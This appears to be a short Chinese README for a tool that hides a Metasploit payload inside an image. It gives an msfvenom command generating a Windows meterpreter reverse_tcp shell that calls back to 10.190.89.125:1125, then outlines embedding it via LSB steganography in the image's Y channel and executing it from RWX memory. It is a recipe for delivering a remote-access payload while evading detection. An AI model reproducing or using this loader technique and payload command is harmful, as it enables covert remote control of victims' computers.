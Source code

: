 ## 信息隐藏
1.msfvenom生成bin文件：
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.190.89.125 lport=1125 -f bin --arch x64 --platform windows -o test.bin

```
2.将图片RGB转为YCbCr值，获取到3个二维数组
3.对Y平面数组采用lsb隐写
4.将YCbCr转为RGB并生成图片

## 信息读取
1.将图片RGB转为YCbCr值，获取到3个二维数组
2.读取Y平面的LSB获取payload

## 执行payload
1.分配可读可写可执行内存
2.写入payload到内存
3.跳转执行